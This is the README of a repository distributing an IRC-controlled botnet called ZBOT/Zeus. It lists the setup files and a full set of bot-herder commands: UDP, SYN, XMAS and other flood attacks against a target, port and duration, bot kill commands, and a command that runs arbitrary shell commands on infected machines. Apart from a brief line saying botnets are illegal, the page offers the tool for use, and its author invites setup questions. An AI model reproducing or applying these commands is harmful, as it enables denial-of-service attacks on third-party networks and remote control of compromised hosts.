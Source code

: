 # ZBOT-Botnet / Zeus-Botnet
# Requirements: CentOS 6.8/6.9 x64 Server
# 
Botnets are illegal, very illegal. Across the globe
# 
Especially ones that are programmed to perform denial of service attacks.
# 
ZBOT/Zeus is a IRC based botnet, you will have to compile it with UnrealIRC3.2-*
# 
# DISCLAIMER
I'm not giving any tutorials on the setup process, If you would like more information on it;
# 
insist of messaging me via Twitter! http://twitter.com/codingplanets
# 
"From one lulzy trollist to the next I can do my best to be the best of the rest" -Chris Poole
# File contents
zbot-setup.py | zbot.c | zbot-build | Unreal3.2.zip
# IRC Commands
	!* udp <target> <port> <time>
# 
	!* syn <target> <port> <time>
# 
	!* fin <target> <port> <time>
# 
	!* psh <target> <port> <time>
# 
    !* ack <target> <port> <time>
# 
    !* urg <target> <port> <time>
# 
    !* rst <target> <port> <time>
# 
    !* ece <target> <port> <time>
# 
    !* cwr <target> <port> <time>
# 
    !* sew <target> <port> <time>	
# 
    !* xmas <target> <port> <time>
# 
	  !* unknown <target> <time>
# 
	  !* kill
# 
	  !* killall
# 
	  !* sh <command>
